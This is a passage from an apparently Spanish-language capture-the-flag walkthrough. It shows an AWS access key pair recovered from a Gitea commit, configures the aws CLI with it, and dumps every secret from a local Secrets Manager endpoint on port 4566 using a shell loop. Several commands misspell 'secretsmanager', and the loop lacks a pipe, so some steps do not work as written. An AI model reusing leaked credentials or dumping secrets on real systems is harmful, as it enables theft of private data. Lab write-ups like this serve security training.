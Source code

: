 Aqui tampoco vemos nada interessante. Miramos si tenemos binarios installados que corresponden a lo que hemos encontrado en el **GITEA**.

```bash
which aws
```

Vemos que tenemos **aws** installado y en un commit del repository 
```bash
 Log_Manager 
```
 podemos ver credenciales con un secret contra un endpoint en el puerto 4566.

```bash
netstat -nat | grep "4566"

aws help
aws secrectsmanager help
aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets
```

Aqui vemos que tenemos primero que configurar el commando aws.

```bash
aws configure

AWS Access Key ID [None]: AKIAIUEN3QWCPSTEITJQ
AWS Secret Access Key [None]: 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
Default region name [None]: eu
Default option format [None]:

aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets
```

Aqui ya podemos listar los secretos y recuperamos la data interesante

```bash
aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets | grep "ARN"
aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets | grep "ARN" | grep -v "RotationLambdaARN"
aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets | grep "ARN" | grep -v "RotationLambdaARN" | grep -oP '".*?"'
aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets | grep "ARN" | grep -v "RotationLambdaARN" | grep -oP '".*?"' | grep -v "ARN"
aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets | grep "ARN" | grep -v "RotationLambdaARN" | grep -oP '".*?"' | grep -v "ARN" | tr -d '"'
```

Ahora que tenemos un listado de **ARN** podemos usar del commando 
```bash
 get-secret-value 
```
 para cada **ARN**.

```bash
#!/bin/bash

aws --endpoint-url="http://127.0.0.1:4566" secrectsmanager list-secrets | grep "ARN" | grep -v "RotationLambdaARN" | grep -oP '".*?"' | grep -v "ARN" | tr -d '"' while read aws_secret_key; do
    echo -e "\n[+] Mostrando secreto con el secret_key $aws_secret_key:\n"
    aws --endpoint-url="http://127.0.0.1:4566" secretsmanager get-secret-value --secret-id "$aws_secret_key"
done
```
